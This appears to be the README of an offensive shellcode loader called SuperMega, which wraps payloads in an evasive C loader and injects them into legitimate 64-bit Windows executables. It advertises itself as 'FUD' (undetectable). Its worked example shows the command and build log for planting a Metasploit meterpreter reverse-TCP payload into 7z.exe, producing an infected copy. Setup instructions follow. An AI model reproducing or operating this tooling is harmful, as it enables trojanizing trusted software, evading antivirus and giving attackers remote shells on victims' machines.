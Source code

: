 # SuperMega - Cordyceps Implementation

> Ophiocordyceps camponoti-balzani is a species of fungus that parasitizes 
> insect hosts of the order Hymenoptera, primarily ants. O. 
> camponoti-balzani infects ants, and eventually kills the hosts after 
> they move to an ideal location for the fungus to spread its spores.


## What

SuperMega is a shellcode loader. It will take a shellcode as input, protects it, adds a loader,
and injects the resulting shellcode into an exe. 

FUD.

And: 
* Only works with 64 bit (shellcode and infecteble exe's)

Features: 
* Loader source is C yay
* Execution-Guardrails
  * Environment variables
* configurable implementation
* different EXE injection techniques

Plugins: 
* source style:
  * PEB_WALK
  * IAT_REUSE
* alloc style:
  * RWX
  * REUSE_RWX
* decoder style:
  * PLAIN_1
  * XOR_1
* dataref style:
  * APPEND


## Examples

### Metasploit in 7z

Inject metasploit into 7z.exe. It will use PEB_WALK. 

```
PS C:\repos\supermega> python.exe .\supermega.py --shellcode .\shellcodes\msf-meterpreter-reversetcp.bin --inject .\exes\7z.exe
(supermega.py) Super Mega
(helper.py   ) --[ Remove old files ]
(model.py    ) --( Capabilities: 
(model.py    )   0x0: GetEnvironmentVariableW (b'')
(model.py    )   0x460090: VirtualAlloc (b'')
(supermega.py) --[ SourceStyle: peb_walk
(compiler.py ) --[ C to ASM: build\main.c -> build\main.asm ]
(compiler.py ) ---[ Make ASM from C: build\main.c ]
(compiler.py ) ---[ Fixup  : build\main.asm ]
(compiler.py )     > Replace external reference at line: 8
(compiler.py )     > Replace external reference at line: 395
(compiler.py )     > Replace payload length at line: 389
(compiler.py )     > Add end of code label at line: 807
(compiler.py ) ---[ Cleanup: build\main.asm ]
(assembler.py) --[ Assemble to exe: build\main.asm -> build\main.exe -> build\main.bin ]
(assembler.py) ---[ Assemble ASM to EXE: build\main.asm -> build\main.exe ]
(assembler.py) ---[ EXE to SHC: build\main.exe -> build\main.bin ]
(helper.py   ) --[ Code section: .text
(helper.py   )     > 0x1000 Code Size: 2557  (raw code section size: 2560)
(assembler.py) --[ Merge stager: build\main.bin + .\shellcodes\msf-meterpreter-reversetcp.bin -> build\main.bin ]
(assembler.py) ---[ Size: Stager: 2557 and Payload: 449  Sum: 3006 ]
(injector.py ) --[ Injecting: build\main.bin into: .\exes\7z.exe -> .\exes\7z.infected.exe ]
(supermega.py) --[ Start infected exe ]
```


## Directories

* `shellcodes/`: Input: Shellcodes we want to use as input (payload)
* `source/`: Input: Loader C templates
* `plugins/`: Input: Loader C implementations
* `exes/`: Input: Nonmalicious EXE files we inject into
* `build/`: build: Temporary files during build process
* `logs/`: build: Files generated by building (inspect for debugging)
* `out/`: output. The generated result: infected exe

## Installation

### Paths

Configure `config.yaml` with: 
* Path to Visual Studio 2022 compiler and assembler
* Path to mash_shc and runshc: https://github.com/hasherezade/masm_shc. 

`config.yaml`:
```yaml
path_cl: 'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\cl.exe'
path_ml64:  'C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\bin\Hostx64\x64\ml64.exe'

path_masmshc:  'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\masm_shc\masm_shc.exe'
path_runshc: 'C:\Users\hacker\Source\Repos\masm_shc\out\build\x64-Debug\runshc\runshc.exe'
```

Make sure its the `Hostx64/x64/` one exe. Make sure to compile
msmshc and runshc as 64bit. You can also replace runshc with
your own shellcode loader. 

### Environment Variables

$Env:PATH += ";C:\Tools\radare2-5.8.8-w64\bin"

Use
```
"C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\Build\vcvars64.bat"
```

or the VS developer console to find the damn environment variables, and set 
it in your python console. In my case:
```
$env:INCLUDE = "C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\include;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Auxiliary\VS\include;C:\Program Files (x86)\Windows Kits\10\include\10.0.22621.0\ucrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\um;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\shared;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\winrt;C:\Program Files (x86)\Windows Kits\10\\include\10.0.22621.0\\cppwinrt;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\include\um"
$env:LIB="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files (x86)\Windows Kits\NETFXSDK\4.8\lib\um\x64;C:\Program Files (x86)\Windows Kits\10\lib\10.0.22621.0\ucrt\x64;C:\Program Files (x86)\Windows Kits\10\\lib\10.0.22621.0\\um\x64"
$env:LIBPATH="C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\ATLMFC\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x64;C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.37.32822\lib\x86\store\references;C:\Program Files (x86)\Windows Kits\10\UnionMetadata\10.0.22621.0;C:\Program Files (x86)\Windows Kits\10\References\10.0.22621.0;C:\Windows\Microsoft.NET\Framework64\v4.0.30319"
```

### VS2022 Components

A list of packages/components which may be required for Visual Studio 2022:
* C++ 2022 Redistributable Update
* C++ Build Insights
* C++ CMake tools for windows
* C++ /CLI support for v143 build tools (lastest)
* MSBuild
* MSVC v133 - VS 2002 C++ x64/x86 build tools (latest)
* C++ ATL for latest v143 build tools (x86 & x64)
* C++ MFC for latest v143 build tools (x86 & x64)
* Windows 11 SDK